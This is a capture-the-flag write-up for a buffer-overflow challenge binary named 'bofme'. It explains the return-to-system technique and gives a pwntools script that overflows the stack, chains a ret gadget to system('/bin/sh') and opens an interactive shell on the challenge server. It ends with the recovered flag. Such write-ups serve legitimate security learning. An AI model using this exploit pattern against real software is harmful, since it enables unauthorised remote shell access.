


In this challenge, we are been given an ELF file, which is vulnerable to BOF.
``bash
$ ./bofme
a little harder this timeaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
zsh: segmentation fault (core dumped)  ./bofme
``
after analyzing the file with gdb gef, 
i undersood that i need to make **return2system**
# return2system
is a type of exploitation on which , hacker exploit BOF vuln and trigger the vuln application to call system fucntion with 
some string like /bin/bash
system('/bin/bash')
<br> after the app call this function, we can get the shell  and exploit the remote server.
<br> in order to success in this job, we need to fill some condition
- the programme must not have PIE protection. otherwise  we can't fill the second condition
- we need to get the address of system
- we need to get the address of sum strings which we must use as system function param
- we need to get 'ret' gadget  in order to make the program return to the address of 'system'
- calculus the offset to get the rip.

  ```python
  from pwn import *

  exe = "./bofme" # replace by your binary
  elf = context.binary = ELF(exe)
  context.log_level = 'debug'
  ############################## to be replaced###############
  offset = 40 # to be replaced
  ret_addr = 0x00000000004004d1 # to be replaced 
  system_addr = elf.symbols['do_system'] #plt system address
  bin_sh_addr = 0x400744 #  0x7ffff7f5404f 
  ############################################################

  payload = flat({offset: [ ret_addr,  system_addr,  bin_sh_addr]})
  with open("payload.txt", "bw") as f:
    f.write(payload)

  #ps = process(exe) # or use remote
  ps = remote('0.cloud.chals.io', 27380)
  #22ps.sendlineafter('time',payload)
  #print(dir(ps))
  ps.sendlineafter(b'time', payload)
  ps.interactive()
```
<br>
<br>


<br>
#flag: flag{getting_better_at_hacking_binaries_i_see...}
